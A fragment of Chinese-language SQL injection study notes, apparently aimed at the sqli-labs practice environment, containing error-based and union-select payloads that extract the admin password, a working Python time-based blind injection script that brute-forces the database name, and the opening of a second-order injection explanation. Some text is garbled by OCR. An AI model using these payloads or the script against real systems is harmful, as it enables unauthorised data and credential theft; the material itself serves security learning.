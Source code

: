    ![3](D:\存储\文章\SQL 注入\3.png)

   **提取任意数据**

   0x1:构造 ' or 1 in(select @@version)

   获取管理员密码：' or 1 in(select password from users where username='admin')--

   常用注入语句：

   concat_ws(char(32,58,32),user(),database(),version())  、

    union select 1,2,group_concat(concat_ws(char(32,58,32),id,username,password)) from users %23  

   时间延迟：

   and if(left(database(),%d)='%s',sleep(5),null)#"%(i,database_name+chr(j))

   payload:

   coding=utf-8`

   `import requests`
   import time

   database_name=""
   url="http://localhost/Less-15/"
   headers={
   	'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:58.0) Gecko/20100101 Firefox/58.0',
   	'Host': 'localhost'
   	}
   currentTime=time.time()
   for i in range(1,9):
   	for j in range(65,123):
   		payload="and if(left(database(),%d)='%s',sleep(5),null)#"%(i,database_name+chr(j))
   		data={
   		"uname":"admin\'"+payload,
   		"passwd":"admin",
   		}
   		starttime=time.time()
   		name=requests.post(url,data=data,headers=headers)
   		if time.time()-starttime>=5:
   			database_name+=chr(j)
   			break
   finishTime=time.time()
   print("[+]一共使用了"+str(finishTime-currentTime)+"s")
   print("[+]数据库名字:"+database_name)`

   ​

   **二阶SQL注入**

   　　　　　　1；攻击者在http请求中提交恶意输入；

   　　　　　　2；恶意输入保存在数据库中；

   　　　　　　3；攻击者提交第二次http请求；

   　　　　　　4；为处理第二次http请求，程序在检索存储在数据库中的恶意输入，构造SQL语句；
